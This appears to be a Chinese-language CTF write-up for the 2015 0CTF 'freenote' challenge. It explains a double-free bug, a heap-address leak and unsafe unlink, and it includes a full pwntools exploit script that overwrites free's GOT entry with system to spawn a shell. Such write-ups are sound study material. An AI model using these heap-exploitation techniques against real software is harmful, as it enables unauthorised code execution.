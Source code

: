 ```yaml
---
title: 2015 0ctf freenote writeup
date: 2017-10-03 16:26:40
tags:
- heap
- double free
- pwn
---
```


这道题的堆指针没有清空，导致释放堆内存后仍然指针任然指向堆，由于释放指针没有有效性检查，经过再次申请重新利用释放掉的内存，可以再将原来释放的堆指针再次释放。
<!-- more -->
# 分析
拿到这道题，先看软件开启了什么保护。
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

64位小端对齐程序，开启了`canary`和`NX`保护，运行程序发现程序有如下功能。
	
	== 0ops Free Note ==
	1. List Note
	2. New Note
	3. Edit Note
	4. Delete Note
	5. Exit
	====================

将程序拖入IDA中，很快定位漏洞位置。在操作`4`中，`free`堆内存后并没有将指针置`NULL`。
```
if ( v1 >= 0 && (signed __int64)v1 < *(_QWORD *)qword_6020A8 )
    {
      --*(_QWORD *)(qword_6020A8 + 8);
      *(_QWORD *)(qword_6020A8 + 24LL * v1 + 16) = 0LL;
      *(_QWORD *)(qword_6020A8 + 24LL * v1 + 24) = 0LL;
      free(*(void **)(qword_6020A8 + 24LL * v1 + 32));
      result = puts("Done.");
    }
```

要理解程序，需要理解全局变量`qword_6020A8`。它的初始化在`sub_400A49`中。`qword_6020A8`是个指针，指向了0x1810大小的内存。
第一个元素保存256，从循环看，这个应该是256个最大值的意思。
第二个元素保存存储note的数量。
之后是每个note的结构体信息，每个结构体24字节，第一个标记变量note[i]->flag，1表示有效，0表示无效；第二个保存note的长度note[i]->length；第三个保存note的指针note[i]->str，通过`malloc`申请内存，最小128，最大4096长度。
```
_QWORD *sub_400A49()
{
  _QWORD *v0; // rax@1
  _QWORD *result; // rax@1
  signed int i; // [sp+Ch] [bp-4h]@1

  v0 = malloc(0x1810uLL);
  qword_6020A8 = (__int64)v0;
  *v0 = 256LL;
  result = (_QWORD *)qword_6020A8;
  *(_QWORD *)(qword_6020A8 + 8) = 0LL;
  for ( i = 0; i <= 255; ++i )
  {
    *(_QWORD *)(qword_6020A8 + 24LL * i + 16) = 0LL;
    *(_QWORD *)(qword_6020A8 + 24LL * i + 24) = 0LL;
    result = (_QWORD *)(qword_6020A8 + 24LL * i + 32);
    *result = 0LL;
  }
  return result;
}
```

# unlink

可以通过我博客里面的`unsafe unlink`来达到任意地址的读写。这时候需要一个全局指针来作为`victim`。前文分析到，note[i]->str指向了堆，而且note[i]还保存在堆上,所以有必要泄露堆地址来获取victim。

# 泄露堆地址

由于字符串读入时，没有补`\0`，所以输出时可以一直把后面的内容打印出来。可以申请多个`small chunk`的堆并释放其中几个，几个small chunk保存在unsorted bins内，让某个freed的chunk（比如A）的bk指向另一个freed chunk（比如B）,然后重新申请A的大小内存，将A块从unsorted bins中释放出来，再次打印A块的内容即可泄露堆内存地址。

这里我学到了一个新的gdb命令，`vmmap`来展示整个内存空间的映射。找到heap一栏，堆内存的起始地址可以查找。

# double free思路

1. 先连续申请4个0x80字节的堆内存，分别计为note0，note1，note2，note3。chunk大小为0x90。
2. 先释放note0，再释放note2，分隔释放防止堆块合并。
3. 重新申请0x80，内容少于8字节，不要覆盖bk指针，可以获取到note0。然后打印note0的内容可以leak堆地址，进而推算出note[i]->str地址。我这里取note[0]->str, 因为note[0]->str = note0。 
4. 将note0,note1,note3释放掉。
5. 然后我们申请3个note,分别记为n_note0, n_note1, n_note2。因为我们要再次free note3。
6. 利用unsafe unlink重新构造n_note0,n_note1,n_note2。具体如何构造，参见<http://rk700.github.io/2015/04/21/0ctf-freenote/>
7. 再次释放note3，拿到note[0]->str，其指向了比它低3个地址长度的地址。
8. 先利用victim指针指向free的got地址，泄露其在内存中加载的地址。
9. 利用libc中free与system相对便宜地址，计算system在内存中加载的地址。
10. 将system内存地址存入free的got表中，覆盖free内存地址。
11. 将/bin/sh写入note中，free掉此note，相当于执行了system('bin/sh')。PWN!

# 总结

1. `vmmap`常用，可以方便的查看包括堆内存分配情况。
2. pwntools工具中关于`recv`函数，有个参数`keepends`表示接受行是否保留\x0a，有时候不需要换行符`\n`，可以将其置为`False`。
3. unsafe unlink熟练运用，达到任意地址读和写的目的。

# 代码

```
from pwn import *
debug=True
p = process('./freenote')
if debug:
    #context.log_level="debug"
    libc = p.libc
    # breakpoint: list note,
    gdb.attach(p, 'b*0x0000000000400B96')
else:
    libc=ELF('./libc.so.6_1')
def new_note(content):
    p.recvuntil('Your choice: ')
    p.sendline('2')
    p.recvuntil('Length of new note: ')
    p.sendline(str(len(content)))
    p.recvuntil('Enter your note: ')
    p.send(content)

def list_note(index=0):
    p.recvuntil('Your choice: ')
    p.sendline('1')
    p.recvuntil(str(index)+'. ')
    # keepends can remove \x0a
    return p.recvline(keepends=False)

def delete_note(index):
    p.recvuntil('Your choice: ')
    p.sendline('4')
    p.recvuntil('Note number: ')
    p.sendline(str(index))

def edit_note(index, content):
    p.recvuntil('Your choice: ')
    p.sendline('3')
    p.recvuntil('Note number: ')
    p.sendline(str(index))
    p.recvuntil('Length of note: ')
    p.sendline(str(len(content)))
    p.recvuntil('Enter your note: ')
    p.send(content)


# new 4 notes
# 0x90+0x90+0x90+0x90
for i in range(0,4):
    new_note('A')

delete_note(0)
delete_note(2)
# leak note 2 address
new_note('12345678')
#heap_note2 = u64(list_note(0)[8:])
addr_half = list_note(0)[8:]
heap_note2 = u64(addr_half.ljust(8, '\x00'))
log.success("note 2 is at %#x"%heap_note2)
heap_addr = heap_note2-0x90-0x90-0x1820+0x10
log.success("heap is at %#x"%heap_addr)

# construct false heap
delete_note(0)
delete_note(1)
delete_note(3)
ptr0 = heap_addr+ 32
# fake note0
# 0
# payload0size = 0x80+0x90+0x90
# fd= ptr0-0x18
# bk= ptr0-0x10
# padding, size = 0x80+0x90+0x90-0x20
# prev_payload0size
# 0x90
# padding, size=0x80
# prev_size=0
# 0x91
# padding, size=0x80
payload0size = 0x80+0x90+0x90
payload0 = p64(0)+ p64(payload0size|1)+ p64(ptr0-0x18)+p64(ptr0-0x10)
payload2 = 'A'*0x80 + p64(payload0size)+p64(0x90)+'A'*0x80+\
        (p64(0)+p64(0x91)+'A'*0x80)*2
new_note(payload0)# note0
payload1 = '/bin/sh\x00'
new_note(payload1)# note1
new_note(payload2)
# just for debug
#list_note(0)

delete_note(3)
# get system addr
# 0000000000602018 R_X86_64_JUMP_SLOT  free
free_got = 0x602018
payload = p64(10)+p64(1)+p64(8)+p64(free_got)

edit_note(0, payload)
free_addr = u64(list_note(0).ljust(8, '\x00'))
log.success('free address is at %#x'%free_addr )

system_addr = free_addr + libc.symbols['system']-libc.symbols['free']

edit_note(0, p64(system_addr))
delete_note(1)

p.interactive()

```


# 参考
[1] [Command vmmap](https://gef.readthedocs.io/en/latest/commands/vmmap/)
[2] [0CTF freenote](http://rk700.github.io/2015/04/21/0ctf-freenote/)
[3] [0ctf 2015 Freenote Write Up](http://winesap.logdown.com/posts/258859-0ctf-2015-freenode-write-up)